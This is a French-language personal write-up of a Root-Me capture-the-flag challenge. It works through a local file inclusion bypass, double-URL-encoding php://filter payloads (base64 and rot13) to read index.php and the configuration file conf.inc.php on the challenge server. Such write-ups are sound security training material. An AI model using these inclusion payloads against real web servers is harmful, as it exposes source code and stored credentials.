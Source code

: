 <script src="../../../js/password-protect.js"></script>

---
categorie: web-server
tags:
  - rootme
  - "#informatique/cyber"
lien:
---
# But

RÃ©ussir a faire un lfi, mais les char url encodÃ© sont flagguÃ© et il faut donc les encodÃ© 2 fois


# Fourni

un site 

![[Pasted image 20241203125114.png]]

![[Pasted image 20241203125131.png]]



je vais faire un petit tableau pour faire mes doubles encodage facilement

| original | url-encode | double encode |
| -------- | ---------- | ------------- |
| /        | %2F        | %252F         |
| .        | %2E        | %252E         |
| :        | %3A        | %253A         |
| =        | %3D        | %253D         |
| â€“        | %96        | %2596         |

chaine que je veux double encoder pour faire un test : 

php%253A%252F%252Ffilter%252Fread%253Dconvert%252Ebase64%E2%80%93encode%252Fresource%253Dindex%252Ephp

php://filter/read=convert.base64-encode/resource=index.php




la j'ai un rÃ©sultat :


http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fread%253Dconvert%252Ebase64%E2%80%93encode%252Fresource%253Dhome

essayer de le faire avec un autre filtre ? ou un autre fichier ?
http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php://filter/read=convert.base64-encode/resource=index.php

http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fread%253Dconvert%252Ebase64%E2%80%93encode%252Fresource%253Dhome


```
php://filter/string.rot13/resource=home
```

php%253A%252F%252Ffilter%252Fstring%252Erot13%252Fresource%253Dhome

string.rot13
string.toupper
string.tolower


parce que je voyais que les base 64 ne fonctionnaient pas, j'ai voulu faire du rot13 et du to upper, je tombe sur cela : 

![[Pasted image 20241203141228.png]]

je vois donc qu'un fichier conf.inc.php  existe

je peux faire la meme chose avec un autre filtre, rot13 et essayer d'afficher conf (to upper ne fonctionnait pas trop...)

![[Pasted image 20241203141827.png]]


![[Pasted image 20241203141837.png]]

Il ne faut pas forcement tester que "convert.base-64" mais aussi les autres.